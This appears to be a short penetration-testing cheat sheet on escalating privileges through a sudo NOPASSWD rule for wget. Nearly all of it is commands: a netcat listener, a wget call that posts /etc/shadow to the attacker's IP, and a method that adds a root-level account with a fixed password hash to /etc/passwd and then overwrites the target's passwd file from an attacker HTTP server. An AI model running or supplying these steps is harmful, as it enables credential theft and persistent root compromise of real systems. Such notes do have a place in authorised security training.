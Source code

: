 - - -
## (root) NOPASSWD: /usr/sbin/wget :

#### On Kali machine :

```sh
nc -nvlp 9090
```

#### On Target machine :

```sh
sudo wget --post-file=/etc/shadow <our_kali_ip>:9090
```

**OR**

#### On Target machine :

```
cat /etc/passwd
```

**Copy** whole file and **paste** it on your Kali machine in a new file named "**fakepasswd**"

#### On Kali machine : 

```sh
echo 'p1yush:$1$siren$4ncSQPoF9SlZhPfGISJ4b1:0:0:root:/root:/bin/bash' >> fakepasswd
```

```python
python3 -m http.server 80 
```

#### On Target machine :

```sh
cd /etc ; wget -O passwd http://10.8.0.239:80/passwd
```

- - -

